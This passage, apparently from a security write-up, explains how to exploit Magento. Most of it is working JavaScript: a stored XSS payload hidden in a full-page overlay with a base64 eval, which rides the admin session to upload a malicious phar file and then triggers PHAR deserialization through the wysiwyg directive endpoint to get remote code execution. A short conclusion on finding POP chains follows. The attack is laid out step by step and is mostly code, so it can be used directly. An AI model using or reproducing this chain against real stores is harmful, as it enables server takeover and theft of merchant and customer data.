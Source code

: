 The base url of magento stores can be modified, so to create a generic its required to extract the url using javascript

```javascript
let reg = /([a-zA-Z0-9\/:.]*)\/sales/i;
let [_, url] = reg.exec(document.location);
```

Upload the phar

```javascript
let form_data = new FormData();
form_data.append('form_key', FORM_KEY);
form_data.append('links', phar, 'rce.phar');
form_data.append('param_name', 'links')
 
let fetch_upload = await fetch(url + '/admin/downloadable_file/upload/type/links/?isAjax=true', {method: 'POST', body: form_data});
```

Generate the phar url

```javascript
let upload_result = await fetch_upload.json();
let file_path = 'phar://pub/media/downloadable/tmp/links' + upload_result.file;
```

Trigger the exploit

```javascript
fetch(url + '/cms/wysiwyg/directive/___directive/' + btoa(file_path) + '/?isAjax=true&form_key=' + FORM_KEY, {method: 'POST'});
```

There is one more trick needed, the XSS payload can't include spaces, so to make things simpler, the entire XSS payload is encoded as base64 and then executed using `eval()`

```javascript
eval(atob('<base64_encoded_xss_payload>'))
```

The final XSS payload is

```javascript
<i style="position:fixed;top:0;left:0;z-index:1000;height:100%;width:100%;" id=" <a href='http://onmouseover=eval(atob(`<base64_encoded_xss_payload>`));this.style=null;this.innerHTML=`cancel&nbsp;note`;//'>a link</a> "></i>
```

---

# Conclusion
The first time it may look very difficult but it is rather simple. Finding an user controllable path and being able to upload arbitrary files is half of the work. The other half, to find a POP chain that enables to cause the desired impact, is the hardest. It can take lot of time to analyze the application code, while being some what blind testing in case of closed source applications. The bright side is that many applications rely on well known third party libraries, which usually have public chains.

---